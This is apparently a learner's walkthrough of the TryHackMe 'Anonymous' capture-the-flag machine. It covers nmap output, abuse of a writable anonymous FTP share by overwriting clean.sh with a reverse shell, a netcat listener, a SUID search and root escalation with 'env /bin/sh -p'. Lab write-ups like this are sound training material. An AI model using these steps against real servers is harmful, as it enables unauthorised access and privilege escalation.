

# Anonymous

I had to run an nmap scan to find out what what is going on in the server. I got the following output:

```c
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.54.229
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

There are 4 ports open here, so I will have to find a way to get in using these ports. If you notice next to ftp it states "\[NSE: writeable\]". This means that we can add a file to the ftp folder. I was assuming that we would add a php-reverse-shell to the file and then use that in order to get a way inside. I did come to realize that there was no way for me to execute the php code. I then had to look at a [write-up](https://m0ndzon3.blogspot.com/2020/06/tryhackme-write-up-anonymous.html) in order to get my foothold into the machine. Before I get too a head of myself, I will let you know where I am currently at for the machine. I noticed that there are files in the ftp directory called "scripts":

```c
	-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
	-rw-rw-r--    1 1000     1000         1978 Mar 10 00:17 removed_files.log
	-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

I downloaded all of these files to my own computer using the "mget \*" command. I then used the [same write-up](https://m0ndzon3.blogspot.com/2020/06/tryhackme-write-up-anonymous.html) as previously to find out my next step. My next step was to overwrite the clean.sh file, and then fill it in with a reverse bash tcp connection. This can be found at [this github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). After this is done, we can then then push it to the ftp using the mput command. Something such as "mput clean.sh", and this will overwrite the current file on the machine. On another tab, on my machine, I ran netcat. I ran the command "nc -lvp 1234" where I am listening on my machine on the port 1234. 



I then found user.txt:


I then needed a way to find a way to get to root. In order to do this, I ran the command:

```c
find / -perm -u=s 2>/dev/null
```

This allows us to us to see what commands we are able to run with our current user. I am not sure why I ran the following command, but it seems to be the only way to get to root. I do not understand why it works. Even after doing a bit of research about it, I still seem to be lost as to why it works. The command was:

```c
env /bin/sh -p
```

This got me to root, and I got the root.txt. 

